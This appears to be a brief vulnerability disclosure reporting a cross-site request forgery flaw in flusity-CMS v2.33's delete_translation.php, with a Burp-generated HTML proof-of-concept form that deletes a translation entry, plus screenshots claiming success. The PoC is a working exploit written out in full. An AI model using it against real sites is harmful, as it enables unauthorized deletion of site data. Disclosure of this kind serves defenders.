 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/delete_translation.php

![1](https://github.com/Icycu123/cms/assets/89123126/ee1f0108-21e5-4ca6-b04e-f5047053163f)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/delete_translation.php">
      <input type="hidden" name="id" value="237" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/Icycu123/cms/assets/89123126/aabf7d72-8500-492d-9464-dca0e26c3f8a)


Successed

![3](https://github.com/Icycu123/cms/assets/89123126/a6b82a7f-902d-4a7e-a77e-fcf268fca72f)
